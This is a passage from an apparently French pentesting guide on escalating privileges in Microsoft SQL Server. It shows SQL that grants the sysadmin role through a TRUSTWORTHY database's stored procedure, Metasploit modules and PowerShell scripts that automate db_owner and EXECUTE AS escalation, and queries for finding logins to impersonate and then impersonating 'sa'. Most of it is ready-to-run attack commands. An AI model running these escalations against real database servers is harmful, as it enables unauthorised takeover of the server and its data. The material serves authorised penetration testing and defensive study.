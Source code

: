 ```sql
EXEC sp_addsrvrolemember 'USERNAME','sysadmin'

--2. Execute stored procedure to get sysadmin role
USE <trustworthy_db>
EXEC sp_elevate_me

--3. Verify your user is a sysadmin
SELECT is_srvrolemember('sysadmin')
```
Vous pouvez utiliser un module **metasploit** :
```bash
msf> use auxiliary/admin/mssql/mssql_escalate_dbowner
```
Ou un script **PS** :
```powershell
# https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1
Import-Module .Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance 10.2.2.184
```
### Impersonation d'autres utilisateurs

SQL Server dispose d'une permission spéciale, appelée **`IMPERSONATE`**, qui **permet à l'utilisateur en cours d'exécution de prendre les permissions d'un autre utilisateur** ou de se connecter jusqu'à ce que le contexte soit réinitialisé ou que la session se termine.
```sql
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```
{% hint style="info" %}
Si vous pouvez vous faire passer pour un utilisateur, même s'il n'est pas sysadmin, vous devriez vérifier **si l'utilisateur a accès** à d'autres **bases de données** ou serveurs liés.
{% endhint %}

Notez que une fois que vous êtes sysadmin, vous pouvez vous faire passer pour n'importe quel autre utilisateur :
```sql
-- Impersonate RegUser
EXECUTE AS LOGIN = 'RegUser'
-- Verify you are now running as the the MyUser4 login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Change back to sa
REVERT
```
Vous pouvez effectuer cette attaque avec un module **metasploit** :
```bash
msf> auxiliary/admin/mssql/mssql_escalate_execute_as
```
ou avec un script **PS** :
```powershell
# https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1
Import-Module .Invoke-SqlServer-Escalate-ExecuteAs.psm1
```